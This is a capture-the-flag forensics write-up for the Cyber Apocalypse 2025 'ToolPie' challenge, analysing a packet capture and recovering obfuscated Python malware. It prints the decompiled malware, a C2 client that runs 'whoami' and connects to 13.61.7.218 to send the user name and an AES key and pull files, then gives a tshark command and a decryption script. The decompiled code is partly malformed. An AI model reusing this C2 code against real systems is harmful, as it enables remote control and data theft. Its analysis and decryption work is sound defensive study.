 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2025 | ToolPie Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2025
parent: cyber_apocalypse_2025
category: forensics
challenge: ToolPie
tags: ""
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2025</h1>


## ToolPie
> Solved by thewhiteh4t


- We were given a PCAP in this challenge


1. What is the IP address responsible for compromising the website?
    1. based on POST requests in the PCAP : `194.59.6.66`
2. What is the name of the endpoint exploited by the attacker?
    1. based on POST requests : `/execute`
3. What is the name of the obfuscation tool used by the attacker?
    1. simply printing the script found above shows a code object which contains a string : `Py-Fuscate`

```    
    # replaced exec() with print()
    > python chal.py
    <code object <module> at 0x555555605650, file "Py-Fuscate", line 1>
```

4. What is the IP address and port used by the malware to establish a connection with the Command and Control (C2) server?
    1. To find this first we need to get the plain text code, what we have is a `python code object`, we can create `pyc` file which is bytecode and get plaintext from it using tools like `uncompyle6`, `decompyle3` or `pycdc`
    2. However none of the tools worked due to python version mismatch, so I found `pylingual`
    3. in the code we can see the ip and port : `13.61.7.218:55155`

```
    # Decompiled with PyLingual (https://pylingual.io)
    # Internal filename: Py-Fuscate
    # Bytecode version: 3.13.0rc3 (3571)
    # Source timestamp: 2025-03-24 20:26:54 UTC (1742848014)
    from os import popen
    pass
    pass
    import socket
    import threading
    import os
    import time
    import random
    import string
    from Crypto.Cipher import AES
    from Crypto.Util.Padding import pad, unpad
    user = os.popen('whoami').read()
    BUFFER_SIZE = 4096
    SEPARATOR = '<SEPARATOR>'
    CONN = True
    def enc_mes(mes, key):
        try:
            cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
            cypher_block = 16
            mes = mes.encode() if type(mes)!= bytes else mes
            return cypher.encrypt(pad(mes, cypher_block))
        except:
            return None
    def dec_file_mes(mes, key):
        cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
        cypher_block = 16
        s = cypher.decrypt(mes)
        return unpad(s, cypher_block)
    def dec_mes(mes, key):
        if mes == b'':
            return mes
    def receive_file():
        try:
            client2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            client2.connect(('13.61.7.218', 54163))
            k = ''.join((random.SystemRandom().choice(string.ascii_letters + string.digits) for _ in range(16)))
            client2.send(k.encode())
            pass
            enc_received = client2.recv(BUFFER_SIZE)
            received = dec_mes(enc_received, k).decode()
            filename, filesize = received.split(SEPARATOR)
            ok_enc = enc_mes('ok2', k)
            client2.send(ok_enc)
            total_bytes = 0
            msg = b''
            if total_bytes < int(filesize):
                bytes_read = client2.recv(BUFFER_SIZE)
                msg += bytes_read
                total_bytes += len(bytes_read)
            decr_file = dec_mes(msg, k)
            with open(filename, 'wb') as f:
                f.write(decr_file)
                    pass
                    client2.close()
        except:
            pass  # postinserted
        client2.send('Error transporting file'.encode())
    def receive(client, k):
        pass
        try:
            pass  # postinserted
        s += 1
        msg = client.recv(1024)
        raise Exception('Reconnect!') if s == 300 else True if msg == b'' else False
        except:
            pass  # postinserted
        pass
        try:
            pass  # postinserted
        client.close()
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client.connect(('13.61.7.218', 55155))
        k = ''.join((random.SystemRandom().choice(string.ascii_letters + string.digits) for _ in range(16)))
        client.send(f'{user}{SEPARATOR}{k}'.encode())
        client.settimeout(600)
        time.sleep(60)
        except:
            time.sleep(60)
    if __name__ == '__main__':
        pass
        try:
            pass  # postinserted
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client.connect(('13.61.7.218', 55155))
        k = ''.join((random.SystemRandom().choice(string.ascii_letters + string.digits) for _ in range(16)))
        client.send(f'{user}{SEPARATOR}{k}'.encode())
        client.settimeout(600)
        break
        receive_thread = threading.Thread(target=receive, args=(client, k))
        receive_thread.start()
    except:
        pass  # postinserted
    time.sleep(50)
```

5. What encryption key did the attacker use to secure the data?
    1. in the code we can see where the key is sent : `client.send(f'{user}{SEPARATOR}{k}'.encode())`
    2. we can look for this pattern in the PCAP : `ec2amaz-bktvi3e\administrator\n5UUfizsRsP7oOCAq` so the key is : `5UUfizsRsP7oOCAq`


6. What is the MD5 hash of the file exfiltrated by the attacker?
    1. since we have the key, we can write our own decryption script
    2. first we need to extract data chunks from the PCAP using `tshark -2 -r capture.pcap -R "tcp.stream eq 4 and data.data" -T fields -e data.data > datafile.txt`
    3. now we can write a script to parse data chunks and decrypt the stolen files

```
    from Crypto.Cipher import AES
    from Crypto.Util.Padding import unpad
    
    def dec_file_mes(mes, key):
        cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
        cypher_block = 16
        s = cypher.decrypt(mes)
        return unpad(s, cypher_block)
    
    key = '5UUfizsRsP7oOCAq'
    
    filename = None
    size = 0
    container = b''
    filling = False
    got_size = False
    
    with open('datafile.txt') as encfile:
        hex_lines = encfile.readlines()
        for line in hex_lines:
            got_name = False
            if filename:
                got_name = True
    
            msg = bytes.fromhex(line)
            if b'SEPARATOR' in msg:
                continue
    
            if not filling:
                decr_file = dec_file_mes(msg, key)
                if b'C:' in decr_file:
                    filename = decr_file.decode().split('\\')[-1]
                    print('[+] Filename : ', filename)
                if got_name and not got_size:
                    if int(decr_file.decode()):
                        size = int(decr_file.decode())
                        print('[+] File Size : ', size)
                        got_size = True
                if size and b'ok' in decr_file:  # handle last ok msg after size
                    filling = True
            else:
                if len(container) != size:
                    container += msg
    
        decr_file = dec_file_mes(container, key)
        print(f'[+] Writing : {filename}')
        with open(filename, 'wb') as outfile:
            outfile.write(decr_file)
```    


![](https://i.imgur.com/8nMLOhx.png)


MD5 Hash : `8fde053c8e79cf7e03599d559f90b321`


